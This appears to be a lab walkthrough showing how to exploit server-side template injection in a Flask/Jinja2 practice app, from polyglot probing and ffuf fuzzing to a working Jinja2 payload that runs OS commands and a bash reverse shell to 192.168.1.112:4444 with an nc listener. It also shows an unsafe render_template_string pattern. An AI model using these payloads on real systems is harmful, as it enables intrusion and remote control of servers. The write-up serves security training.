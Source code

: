 ﻿# SSTI Audition Lab

Today we will be abusing SSTI on a flask application to obtain a reverse shell.

## Discovery

Heading over to Tech Guru's website we can find an a field requesting for our name for personalized insights. Because this field is a prime canidate for server side template injection. Let's go ahead and try to fuzz for it. The simplest approach would be to first use a polyglot to see how the application interacts with our request.

```python
${{<%[%'"}}%\
```

![img.png](img.png)

Polyglots are great because it tests all characters that could potentially make an application vulnerable. What we are looking for here is to trigger an error or a behavior that is unexpected.

After clicking "Get Insights", we will execute the polyglot and recieve a flask error. Excellent! Now we know exactly what template the application is using.

![img1.png](img1.png)

In this case, we now know that the application we are interacting with is written in Python. Additionally, we know that the template it is using is Jinja2, as annotated by the `jinja2.exceptions.TemplateSyntaxError`.

In other applications outside of this lab, if the above did not result in an error or some other indicator that the application behaved unexpectedly. We may use the `ffuf` tool to fuzz instead. After we have opened burpsuite (You may type burpsuite in console), we may run the following:

```bash
#The wget command is just to grab the fuzzing file we will be using, it contains code for all templates.
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
ffuf -u www.victim-website.com/ -x FUZZ -w ssti.fuzz -replay-proxy http://127.0.0.1:8080/
```
You may manually analyze the responses to see what returns "49" (As indicated by 7*7) or the id of the user.

2 great resources for figuring out which template injection it is are the following:

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Since we do not need to use ffuf as we already know the template that is in use. We can look into specifics on how the Jinja2 template works.

## Understanding the Jinja2 Template
https://jinja.palletsprojects.com/en/3.1.x/
"Jinja is a fast, expressive, extensible templating engine. Special placeholders in the template allow writing code similar to Python syntax. Then the template is passed data to render the final document."

Jinja2 is typically used in the django and flask frameworks. 

If the app blindly takes user input and renders it in the application, it may be vulnerable to arbitrary code injection. Let's take a look at what this looks like in Python.

```python
greeting = render_template_string(f"Hello, {name}!")
```

The `render_template_string` function is rendering the template "{name}" without any filtering. Because of this, we can make the application evaluate any code that we provide it.

## Discovery of Python Methods with SSTI (Flask / Jinja2)

Some template frameworks allow you to freely execute arbitrary code, Jinja2 however, does not. We must first figure out what methods we can access.

Firstly, we will attempt to access a simple built-in method such as `upper()`

`{{"test".upper()}}`

![img2.PNG](img2.png)

We can see that "test" is in all-caps. Knowing that we can now access built-in methods, we can leverage this to execute any code from any module that is built into python.

the `os` module in python allows python to interface with the operating system. This is a prime target for us as it allows us to execute code directly on the target host.

There are several ways to access a built-in method, however, we will use something simple and obtain remote code execution that way. You will always want to start simple and make sure you can get a working proof of concept exploit before expanding on it into something more complicated like a reverse shell. For now, we will just obtain the id of the user the flask application is running as.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![img3.png](img3.png)

Great! As you can see, we can successfully execute linux commands. Now let's get a reverse shell!

We will configure our command first to copy over into our SSTI Injection.

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/4444 0>&1"
```

You will want to change the IP address `x.x.x.x`. You may get your IP address by typing `ip addr`.

After you have configured your SSTI Injection, we will want create the full PoC (Proof of Concept) in a note to copy paste.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.112/4444 0>&1"').read() }}```
```

Now that we have our payload built, we may start up a listener on our attack machine.

```bash
nc -nvlp 4444
```

![img6.png](img6.png)

After you execute the payload on the website, you should obtain a shell from the web server.

![img5.png](img5.png)

![img7.png](img7.png)

Excellent, we now have a reverse shell on the web server!